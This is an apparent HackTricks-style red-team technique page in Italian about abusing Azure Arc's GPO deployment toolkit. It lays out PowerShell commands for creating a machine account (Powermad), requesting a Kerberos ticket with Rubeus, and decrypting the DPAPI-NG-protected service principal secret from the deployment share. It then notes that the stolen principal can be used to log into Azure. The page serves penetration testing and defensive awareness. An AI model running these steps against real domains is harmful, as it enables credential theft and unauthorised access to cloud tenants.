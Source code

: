 # Az - Script di Distribuzione GPO Vulnerabile di Azure Arc

{% hint style="success" %}
Impara e pratica l'Hacking su AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

### Identificazione dei Problemi

Azure Arc consente l'integrazione di nuovi server interni (server del dominio connessi) in Azure Arc utilizzando il metodo dell'oggetto Group Policy. Per facilitare ciò, Microsoft fornisce un toolkit di distribuzione necessario per avviare la procedura di integrazione. All'interno del file ArcEnableServerGroupPolicy.zip, è possibile trovare i seguenti script: DeployGPO.ps1, EnableAzureArc.ps1 e AzureArcDeployment.psm1.

Quando eseguito, lo script DeployGPO.ps1 esegue le seguenti azioni:

1. Crea il GPO di integrazione dei server Azure Arc all'interno del dominio locale.
2. Copia lo script di integrazione EnableAzureArc.ps1 nella condivisione di rete designata creata per il processo di integrazione, che contiene anche il pacchetto di installazione di Windows.

Durante l'esecuzione di questo script, gli amministratori di sistema devono fornire due parametri principali: **ServicePrincipalId** e **ServicePrincipalClientSecret**. Inoltre, sono richiesti altri parametri come il dominio, l'FQDN del server che ospita la condivisione e il nome della condivisione. Ulteriori dettagli come l'ID tenant, il gruppo di risorse e altre informazioni necessarie devono essere forniti allo script.

Viene generato un segreto crittografato nella directory AzureArcDeploy sulla condivisione specificata utilizzando la crittografia DPAPI-NG. Il segreto crittografato viene memorizzato in un file chiamato encryptedServicePrincipalSecret. Evidenze di ciò possono essere trovate nello script DeployGPO.ps1, dove la crittografia viene eseguita chiamando ProtectBase64 con $descriptor e $ServicePrincipalSecret come input. Il descrittore è composto dai SID dei gruppi Domain Computer e Domain Controller, garantendo che il ServicePrincipalSecret possa essere decifrato solo dai gruppi di sicurezza Domain Controllers e Domain Computers, come indicato nei commenti dello script.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Sfruttare

Abbiamo le seguenti condizioni:

1. Abbiamo penetrato con successo nella rete interna.
2. Abbiamo la capacità di creare o assumere il controllo di un account computer all'interno di Active Directory.
3. Abbiamo scoperto una condivisione di rete contenente la directory AzureArcDeploy.

Ci sono diversi metodi per ottenere un account macchina all'interno di un ambiente AD. Uno dei più comuni è sfruttare il limite dell'account macchina. Un altro metodo coinvolge il compromettere un account macchina attraverso ACL vulnerabili o varie altre misconfigurazioni.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Una volta ottenuto un account macchina, è possibile autenticarsi utilizzando questo account. Possiamo utilizzare il comando runas.exe con il flag netonly o utilizzare pass-the-ticket con Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Utilizzando il TGT per il nostro account computer memorizzato in memoria, possiamo utilizzare lo script seguente per decrittare il segreto principale del servizio.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativamente, possiamo utilizzare [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

A questo punto, possiamo raccogliere le informazioni rimanenti necessarie per connetterci ad Azure dal file ArcInfo.json, che è memorizzato nella stessa condivisione di rete del file encryptedServicePrincipalSecret. Questo file contiene dettagli come: TenantId, servicePrincipalClientId, ResourceGroup e altro. Con queste informazioni, possiamo utilizzare Azure CLI per autenticarci come il service principal compromesso.

## Riferimenti

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
